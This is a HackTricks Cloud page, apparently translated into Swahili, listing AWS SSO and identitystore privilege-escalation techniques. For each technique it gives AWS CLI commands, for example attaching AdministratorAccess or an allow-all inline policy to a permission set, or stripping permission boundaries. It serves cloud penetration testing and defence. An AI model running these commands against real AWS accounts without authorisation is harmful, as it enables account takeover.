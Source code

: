 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Kwa maelezo zaidi kuhusu AWS Identity Center / AWS SSO angalia:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Kumbuka kwamba kwa **kawaida**, ni **watumiaji** pekee wenye ruhusa **kutoka** kwenye **Akaunti ya Usimamizi** watakuwa na uwezo wa kufikia na **kudhibiti Kituo cha Utambulisho wa IAM**.\
Watumiaji kutoka akaunti nyingine wanaweza tu kuruhusiwa ikiwa akaunti hiyo ni **Msimamizi wa Wawakilishi.**\
[Angalia hati kwa maelezo zaidi.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

Njia rahisi ya kupandisha mamlaka katika hali kama hii ingekuwa kuwa na ruhusa inayoruhusu kurekebisha nywila za watumiaji. Kwa bahati mbaya, inawezekana tu kutuma barua pepe kwa mtumiaji ili kurekebisha nywila yake, hivyo unahitaji ufikiaji wa barua pepe ya mtumiaji.

### `identitystore:CreateGroupMembership`

Kwa ruhusa hii inawezekana kuweka mtumiaji ndani ya kundi ili inherit ruhusa zote ambazo kundi lina. 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake.

{% hint style="warning" %}
Ili kutumia ruhusa hizi katika kesi hii unahitaji kujua **jina la sera inayosimamiwa na mteja ambayo iko ndani ya AKAUNTI ZOTE** ambazo zitakazoathiriwa.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Mshambuliaji mwenye ruhusa hii anaweza kumpa Seti ya Ruhusa mtumiaji chini ya udhibiti wake kwa akaunti.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Inarudisha STS muda mfupi wa akreditivu kwa jina la jukumu lililotolewa kwa mtumiaji.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Hata hivyo, unahitaji token ya ufikiaji ambayo sija hakika jinsi ya kupata (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa uhusiano kati ya sera inayosimamiwa na AWS kutoka kwa seti ya ruhusa iliyotajwa. Inawezekana kutoa ruhusa zaidi kupitia **kuondoa sera inayosimamiwa (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa uhusiano kati ya sera inayosimamiwa na Mteja kutoka kwa seti ya ruhusa iliyoainishwa. Inawezekana kutoa ruhusa zaidi kupitia **kuondoa sera inayosimamiwa (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa ruhusa kutoka kwa sera ya ndani kutoka kwa seti ya ruhusa. Inawezekana kutoa **ruhusa zaidi kupitia kuondoa sera ya ndani (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa Mipaka ya Ruhusa kutoka kwa seti ya ruhusa. Inawezekana kutoa **ruhusa zaidi kwa kuondoa vizuizi kwenye Seti ya Ruhusa** vilivyotolewa kutoka kwa Mipaka ya Ruhusa.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
